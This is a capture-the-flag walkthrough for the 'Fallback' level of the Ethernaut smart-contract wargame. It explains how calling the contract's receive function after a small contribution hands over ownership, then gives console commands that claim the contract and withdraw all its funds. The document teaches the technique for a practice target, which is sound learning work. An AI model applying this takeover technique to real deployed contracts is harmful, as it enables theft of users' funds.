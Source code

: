 [Level 1. Fallback](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)

## Concepts

1. The basis of coding logic.

    1. Find which lines of code you can use to crack the level.
    
    2. In order to access these lines of code, the requirement you’ll need to fulfill.
    
2. The understanding of `msg.value`.

    1. `msg.value`: number of wei sent with the message.

## Level Target

1. Take ownership of the contract.

2. Withdraw all funds from the contract. (Only `owner` can do so)

## BreakDown & Analysis

1. Two ways to take ownership.

    1. Contribute more eth than `owner` does → unrealistic, you can’t contribute more than 0.001 ether at one transaction, plus the owner already has 1000 ethers of contribution when the contract is built. (unfair, right?)
    
    2. So the other way to hack the contract is from `receive` function, in order to call `receive`, you’ll need to satisfy two conditions.
    
        * send some eth when calling receive.
        
        * already had contributions before.
        
        Once you meet these two conditions and successfully call receive, the first target is fulfilled.
        
2. Only the owner can withdraw the funds.

    1. Since only the owner can withdraw funds, it is required to complete the first target before this step.
    
    2. Once you become the owner, it is effortless to withdraw all the funds!

## Detailed Steps (work through the console)

```js
await contract.contribute({ value: toWei("0.000001") }) // contribute first, so that you'll be able to call receive
await contract.getContribution().then(fund => fromWei(fund.toString())) // confirm if you have contributed
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')}) // call receive with some ether sent
await contract.owner() === player // check if you're the owner now
await contract.withdraw() // take all the funds out from the contract!!!
```
